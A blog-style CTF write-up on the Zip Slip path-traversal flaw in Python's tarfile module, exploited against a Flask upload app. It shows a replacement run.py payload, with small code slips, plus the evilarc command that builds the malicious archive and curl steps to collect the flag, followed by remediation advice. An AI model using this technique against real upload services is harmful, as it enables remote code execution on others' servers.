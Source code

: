 .. title: Zip Slip (malicious archives)
.. slug: zip-slip-malicious-archives
.. date: 2021-12-04 17:41:43 UTC-05:00
.. tags: hacking, flask, zipslip, ctf, python, evilarc
.. category: hacking, ctf writeup
.. link:
.. description:
.. type: text

Recently, I completed a CTF challenge that involved an interesting vulnerability.
Since the challenge is active, I won't be providing screenshots, but I've kept things general enough that it shouldn't spoil anything.

The web app
===========

The entire app was provided with a dockerfile, so it could be run offline.

My first step was to investigate the app and see what vulnerabilities might exist.
The web app is very simple, and was developed using Flask.
It contains a single web page that allows you to upload a tar.gz file.
The uploaded file is extracted using the `tarfile <https://docs.python.org/3/library/tarfile.html>`_ library.
The validation of user uploaded file is insufficient.

First, the file is checked to see if it is indeed a tarfile, with a call to ``tarfile.is_tarfile()``.
If this is true, then `tarfile.extract_all()` is called. There is a warning about this function in the docs.

Warning

``Never extract archives from untrusted sources without prior inspection. It is possible that files are created outside of path, e.g. members that have absolute filenames starting with "/" or filenames with two dots "..".``

The vulnerability
=================
Some further research reveals that this is quite an old vulnerability.
The tar program was discovered to be vulnerable all the way back in 2001, `CVE-2001-1267 <https://nvd.nist.gov/vuln/detail/CVE-2001-1267>`_
The core issue is that tar did not validate filenames, so if the archive contained a file named ``../../../../etc/passwd``, when extracted it would overwrite ``/etc/passwd`` by traversing the ``../`` directives as long the user invoking tar had the appropriate permissions)


The python tarfile module apparently shares a great deal of similar code, because the same issue was identified in the python module in 2007 (6 years after the original tar vulnerability).
This was discussed on the python-dev email list https://mail.python.org/pipermail/python-dev/2007-August/074290.html
It was again discussed in 2014, https://bugs.python.org/issue21109
Now, 20 years later, there still isn't a resolution.

In the general sense, I see two potential ways of exploiting a vulnerability like this.
In modern linux environments, /etc/passwd no longer contains sensitive information like password hashes, so overwriting that file won't allow access to the machine.
One potential attack would be to overwrite the users ``~/.ssh/authorized_keys`` file to include your own key.
Of course, for that to be exploitable, you would already need access to the file system.

Since python is now popular for developing web apps through Django and Flask, this opens up a new avenue: uploading a malicious archive to overwrite or create files.

Back to the challenge, since the app is flask, it is possible to overwrite the main app handler.

The original file is quite simple

.. code:: python
  :number-lines:


  from application.main import app
  app.run(host='0.0.0.0', port=1337, debug=True, use_evalex=False)



and the modified code:

.. code:: python
  :number-lines:

  from application.main import app
  import shutil
  import os
  try:
      path = '/app/application/static/'
      shutil.copy('flag', os.path.join(path, 'flag'))

      out = subprocess.check_output('id')

      with open(os.path.join(path, 'logfile.txt'), 'w') as f:
          f.write(msg)
  except:
      pass

  app.run(host='0.0.0.0', port=1337, debug=True, use_evalex=False)

This simply copies the flag from it's location within the app folder to the static files that are served by flask.
This could be modified to do the same thing for multiple files, or initiate a reverse shell.

The exploit
===========

I found a tool that had already been created to craft the malicious archive.

https://github.com/ptoomey3/evilarc

That script uses the same vulnerable library to craft the archive.
This also appears to work on zip archives as well, but that's something for another time.

Simply running the script ``python evilarc.py run.py -f evil.tar.gz -o unix -p /app`` generates the archive.

* ``evil.tar.gz`` is the file that is created
* ``run.py`` is the modified file from earlier
* ``-p /app`` specifies the directory where ``run.py`` will be overwritten after traversal

Uploading the resulting file in a browser and then doing ``curl http://localhost:1337/static/flag`` outputs the flag.

Further, ``curl http://localhost:1337/static/logfile.txt`` reveals this app is running as root
``'uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)``

Impact
======

This is a pretty severe vulnerability as it allows full remote code execution.
In this particular instance, the flask app is run as root, and directly runs the app.py file in debug mode.

Remediation
===========

The most severe problem with this app is that the contents of the uploaded file are trusted implicitly.
To fix this, the user-supplied archive should not be blindly extracted.
There currently isn't a fixed version of the ``tarfile`` module, so until that is fixed upstream, some crude checks might provide some protection.
Ex: refusing to extract files that start with ``..``
The flask app shouldn't be run with debug mode turned on in a production environment.
The flask app also shouldn't be running as root.

I'm not sure how applicable this is to real world websites, as this example relies on ``supervisord`` detecting the overwritten ``/app/run.py`` file and reloading.
Having never deployed a flask app to production myself, my understanding is that something like gnuicorn would only do that if debug settings were explicitly enabled.
https://docs.gunicorn.org/en/stable/settings.html#debugging


Closing
=======

This was a really fun challenge (and writing this took much longer than getting the flag).
It is really interesting that this bug still exists 20 years after first identified in tar.
The spread of python based web apps due to the popularity of Django and flask has brought old vulnerabilities that previously required local file system access can now be leveraged to remotely execute code.
